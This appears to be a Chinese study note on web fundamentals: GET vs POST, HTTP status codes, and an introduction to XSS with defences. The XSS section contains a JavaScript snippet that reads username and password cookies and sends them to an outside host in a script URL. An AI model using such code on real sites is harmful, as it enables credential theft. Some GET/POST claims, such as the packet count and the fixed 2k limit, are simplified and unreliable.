 **区别**

- **Get请求的数据（参数）会显示在地址栏**，，而Post不会。
- **Post请求的参数存放到了请求实体Request body中**，GET参数通过URL传递。
- **数据传输Post有优势：Get方式请求的数据不能超过2k，而Post 没有上限。**
- **浏览缓存Get有优势：Get具有数据缓存，而Post没有。**
- GET请求会被浏览器**主动缓存**，POST不会，要手动设置
- GET请求在URL中传送的参数是有**长度限制**的，而POST没有限制
- **GET产生一个TCP数据包；POST产生两个TCP数据包**

**选择**

- **私密性**的信息请求使用 POST（如注册、登陆）
- **查询**信息使用 GET



### 常见状态码

- 200 (OK)：找到了该资源，并且一切正常。
- 301(MOVED PERMANENTLY)：永久性重定向，表示资源已被分配了新的 URL。
- 302 (FOUND)：临时性重定向，表示资源临时被分配了新的 URL。服务器目前从不同位置的网页响应请求，但请求者应继续使用原有位置来响应以后的请求。
- 304 (NOT MODIFIED)：该资源在上次请求之后没有任何修改。这通常用于浏览器的缓存机制。
- 401 (UNAUTHORIZED)：客户端无权访问该资源。这通常会使得浏览器要求用户输入用户名和密码，以登录到服务器。
- 403 (FORBIDDEN)： 客户端未能获得授权，服务器拒绝请求。这通常是在401之后输入了不正确的用户名或密码。
- 404 (NOT FOUND)：在指定的位置不存在所申请的资源。
- 500 (服务器内部错误)：服务器遇到错误，无法完成请求。
- 503 (服务不可用)：服务器目前无法使用（由于超负载或停机维护）。通常这只是暂时状态。



### XSS、CSRF 和 DDoS

**XSS（Cross-Site Scripting）：跨站脚本攻击**

- **跨站脚本攻击**(为了和CSS区分开缩写为XSS)，是一种代码注入攻击。攻击者在目标网站上注入恶意代码，当用户登陆网站时就会执行这些恶意代码，这些脚本可以读取 cookie，session tokens，或者其它敏感的网站信息，进而危害数据安全。

- XSS 的本质是因为网站没有对恶意代码进行过滤，与正常的代码混合在一起了，浏览器没有办法分辨哪些脚本是可信的，从而导致了恶意代码的执行。

- 例如：在下面逻辑中，脚本中获取了你的个人信息，并将你的个人信息发送到后端 `php` 文件中进行处理保存，这样你的个人信息就已经泄露了

  ```javascript
  // attack.js 中的逻辑
  var uname = $.cookie('username'); // 获取账号
  var pwd = $.cookie('password'); // 获取密码
  
  // 发送请求
  $('body').appendTo('<script src=`http://autofelix.com/index.php?username=${uname}&password=${pwd}`></script>');
  ```

- **防御方式**：

  - **纯前端渲染**：我们会明确的告诉浏览器：下面要设置的内容是文本（`.innerText`），还是属性（`.setAttribute`），还是样式（`.style`）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。
  - **转义 HTML**：如果拼接 HTML 是必要的，就需要采用合适的转义库，对 HTML 模板各处插入点进行充分的转义
  - 使用 CSP：CSP 意为内容安全策略，它的本质是指定有效域(建立一个白名单)，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。
